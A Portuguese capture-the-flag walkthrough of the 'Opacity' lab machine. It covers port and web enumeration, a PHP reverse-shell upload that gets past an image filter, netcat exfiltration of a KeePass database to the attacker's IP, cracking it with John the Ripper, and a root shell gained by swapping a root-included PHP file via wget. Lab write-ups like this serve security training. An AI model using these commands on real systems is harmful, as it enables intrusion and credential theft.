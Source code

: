 # _**Opacity**_
![](opal.jpg)

## _**Enumeração**_
Primeiro, vamos realizar um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Investigando a página web, temos diretamente uma página de login  
Vamos tentar algumas credenciais padrão e também SQL injection  
Nenhum resultado  
Para o próximo passo, vamos tentar enumerar mais das outras portas descobertas  
As portas 139/tcp e 445/tcp estão abertas e sendo usadas pelo Samba, que é a implementação do protocolo SMB para sistemas Unix/Linux, permitindo compartilhamento com sistemas Windows  
Vamos utilizar <mark>Enum4linux</mark> para realizar a enumeração  
> ```bash
> enum4linux -a [ip_address]
> ```

Lendo o retorno, temos algumas informações úteis, mas nada que possa ser usado  
Vamos tentar enumerar a página web com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](scan_gobuster.jpg)

Parece que temos um diretório interessante  
Visitando, temos a opção de realizar upload de imagens, mas apenas via link externo  
Vamos ligar nosso servidor python e tentar realizar upload de um _reverse shell em PHP_  
Acessamos o link no nosso exploit no _browser_ para confirmar que está funcionando  
Como o link alvo aceita apenas imagens, podemos adicionar ```#.jpg``` no final do link para conseguirmos realizar upload  

![](reverse_shell.jpg)

## _**Escalando priviléigos**_
Tranferimos <mark>LinPeas</mark> para a máquina alvo e executamos para encontramos alguma forma de escalar privilégios  
Um pouco perdido nesta parte, fui buscar alternativas  
Encontramos um arquivo com a extensão ```.kdbx``` da qual encontramos em _/opt_  
Vamos realizar download para a nossa máquina via ```netcat```  
> ```bash
> nc -lnvp [port] > dataset.kdbx
> nc [vpn_ip_address] [port] < dataset.kdbx
> ```

Após extrair o arquivo, tentamos ler, mas está criptografado  
Pesquisando sobre, podemos tentar quebrar com <mark>John the Ripper</mark>  
> ```bash
> keepass2john dataset.kdbx > keepasshash.txt
> john keepasshash.txt --wordlist=/usr/share/wordlists/rockyou.txt
> ```
![](john_return.jpg)

Vamos utiliar a ferramenta <mark>keepassxc</mark> para extrair o conteúdo do arquivo  

![](sysadmin_creds.jpg)

Vamos agora realizar login via SSH no usuário **sysadmin**  
Durante a investigação com o usuário **www-data**, encontramo um arquivo _.php_ do qual não conseguiamos ler  
Agora com este usuário, podemos verificar seu conteúdo  
Além do script ter dono _root_, podemos concluir que é um script de backup que inclui outro script em lib/backup.inc.php  
Vamos ver se conseguimos modificar este arquivo  
O arquivo _backup.inc.php_ é propriedade do root, então não temos permissão para alterar seu conteúdo  
No entanto, como usuário sysadmin, temos direitos de execução no diretório lib  
Isso nos permite remover _backup.inc.php_ e adicionar outro arquivo com o mesmo nome, mas com conteúdo diferente  
Adicionaremos um script que gera um terminal  
Como _script.php_ inclui _backup.inc.php_ e é executado com privilégios de root, ele gerará um terminal root  
Primeiro, vamos executar o comando abaixo no diretório _/lib_
> ```bash
> rm -rf backup.inc.php
> ```

Em seguida, o próximo comando na nossa máquina, e o segundo comando na máquina-alvo
> ```bash
> nc -lnvp [port]
> wget http://[vpn_ip_address]/php-reverse-shell.php -O ~/scripts/lib/backup.inc.php
> ```
![](root_shell.jpg)

Agora, basta ir atrás das flags!

